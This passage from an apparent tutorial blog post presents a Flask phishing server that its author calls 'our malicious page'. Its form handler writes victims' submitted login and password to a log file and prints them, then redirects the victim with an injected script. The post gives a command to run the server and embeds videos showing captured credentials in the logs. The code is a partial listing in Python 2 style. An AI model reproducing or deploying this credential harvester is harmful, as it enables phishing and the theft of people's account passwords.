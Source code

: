 ```python
TO_LOG = ['login', 'password']
REDIRECT_URL = '__REDIRECT_URL__'


@app.route('/form', methods=['POST'])
def form():
    with open(LOG_FILE, 'a') as f:
        f.write(time.ctime() + '\n')
        # import pdb; pdb.set_trace()
        for i in TO_LOG:
            if i in request.form:
                log = i + ' = ' + request.form[i]
                f.write(log + '\n')
                print log
        f.write('\n')
    return "<script>window.location='" + REDIRECT_URL + "'</script>"


@app.route('/')
def index():
    return render_template('index.html')


if __name__ == '__main__':
    manager.run()
```

These lines of code spin up a web server that binds to whichever unix port you want it to bind to and serves up our malicious page. 
try running it yourself if you haven't already: `python app.py runserver -h 0.0.0.0 -p 8090`


<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/chirpy-a-simple-phishing-page-2023-03-27%2022-59-36.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>

Don't mind the keyring prompt that I ignored in the video above, the captured email + password can be found in the console logs as well as in the text log on the server as displayed on the video below:

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://youtube.craftstudios.shop/uploads/netgear/Videos/chirpy/chirpy-a-simple-phishing-page-2023-03-27%2023-07-54.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>
